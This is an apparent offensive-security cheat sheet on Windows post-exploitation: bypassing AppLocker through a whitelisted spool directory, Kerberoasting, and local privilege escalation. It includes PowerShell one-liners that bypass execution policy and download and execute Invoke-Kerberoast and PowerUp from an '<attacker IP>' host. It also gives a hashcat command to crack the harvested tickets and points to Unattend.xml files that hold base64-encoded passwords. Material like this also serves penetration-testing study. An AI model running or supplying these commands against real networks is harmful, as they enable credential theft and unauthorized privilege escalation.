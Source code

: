 ## Bypassing Applocker

Applocker restricts which users are allowed to execute a program based on the path, publisher and hash.

`C:\Windows\System32\spool\drivers\color` Is a directory that by default is whitelisted.
`%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` Is a location for the Powershell history.

## Kerberoasting

`setspn -T medin -Q */*` - Extract all accounts in the SPN, which is the mapping between service and account.

If there is an SPN for a user we can use Invoke-Kerberoast and get a ticket.

Download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1):

``` powershell
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('https://<attacker IP>/Kerberoast.ps1')
Invoke-Kerberoast -OutputFormat hashcat |fl #Load this into memory
```

`hashcat -m 13100 -a 0 hash.txt <wordlist> --force` - Crack the hash you got.

## Privilege Escalation

[PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) is a script that enumerate any weaknesses to abuse for local privilege escalation

Download the script:

``` powershell
powershell -ep bypass;
iex​(New-Object Net.WebClient).DownloadString('http://<attacker ip>/PowerUp.ps1')
```

##### UnattendPath way

Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode.

It is also where users passwords are stored in base64 encoding.

`C:\Windows\Panther\Unattend\Unattended.xml` - The file for the encoded password.